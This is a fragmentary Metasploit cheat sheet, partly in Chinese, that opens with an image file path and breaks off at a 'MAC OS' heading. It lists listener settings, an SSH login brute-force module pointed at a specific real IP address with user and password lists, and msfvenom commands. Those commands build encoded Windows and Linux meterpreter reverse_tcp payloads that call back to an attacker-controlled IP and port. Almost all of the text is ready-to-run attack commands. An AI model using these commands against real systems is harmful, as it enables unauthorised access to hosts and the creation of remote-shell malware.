 

set LHOST <LHOST value>



set LPORT <LPORT value>



set ExitOnSession false



exploit -j -z







1、爆破密码

use auxiliary/scanner/ssh/ssh_login



set user_file /tmp/data/user

set pass_file /tmp/data/new.txt

set RHOSTS 23.225.154.246

run





















Windows:



msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=

攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o

payload.exe



Linux:

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻

击机IP LPORT=攻击机端口 -f elf -o payload.elf



MAC OS:
